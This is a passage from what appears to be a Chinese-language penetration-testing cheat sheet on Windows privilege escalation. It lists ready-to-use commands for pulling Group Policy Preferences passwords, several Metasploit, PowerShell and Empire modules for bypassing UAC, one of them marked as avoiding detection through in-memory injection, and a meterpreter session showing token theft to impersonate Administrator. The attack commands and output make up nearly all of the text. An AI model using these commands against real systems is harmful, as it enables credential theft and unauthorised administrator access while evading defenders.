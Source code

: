 谢公子的博客有很清楚的说明：[Windows 组策略首选项提权](https://blog.csdn.net/qq_36119192/article/details/104344105)

```
#Powershell获取cpassword
Get-GPPPassword.ps1

#Msf
post/windows/gather/credentials/gpp

#Empire
usemodule privesc/gpp


```

### 4.5 绕过 UAC 提权

之前 backlion 师傅有一篇博文，主要写的就是这个：[使用 Metasploit 绕过 UAC 的多种方法](https://www.cnblogs.com/backlion/p/10552137.html)

所以在这里就只把一些常用的命令筛选出来

```
#Msf
exploit/windows/local/bypassuac
getsysem

#避免发现,内存注入,不产生文件
exploit/windows/local/bypassuac\_injection


```

```
#Powershell
Invoke-PsUACme

#Empire
usemodule privesc/bypassuac
usemodule privesc/bypassuac\_wscript


```

### 4.6 令牌窃取

4.6.1 实战举例

```
#已经获取到一个session
#方法一

meterpreter > use incognito
......
meterpreter > list\_tokens -u
......
WIN-2HU3N1\\Administrator
......
meterpreter > impersonate\_token WIN-2HU3N1\\\\Administrator  #注意：这里是两个反斜杠\\\\
......
Successfully......

meterpreter > shell

C:\\User\\Administrator>whoami
WIN-2HU3N1\\Administrator


```